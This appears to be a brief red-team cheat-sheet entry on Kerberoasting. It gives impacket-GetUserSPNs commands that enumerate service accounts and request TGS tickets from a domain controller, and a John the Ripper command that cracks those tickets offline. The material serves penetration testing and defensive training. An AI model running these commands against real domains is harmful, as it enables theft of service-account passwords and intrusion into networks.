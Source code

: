 ```yaml
---
label: Kerberoasting
disabled: true
---
```


# Kerberoasting

Linux:

```bash
# Get list of kerberoastable users from DC
impacket-GetUserSPNs $domain/$user:$pass -dc-ip $dc_ip

# Request TGS for kerberoastable users
impacket-GetUserSPNs $domain/$user:$pass -dc-ip $dc_ip -request
```

## Crack TGS offline

```bash
john --format=krb5tgs --wordlist=$wordlist $tgs_file
```
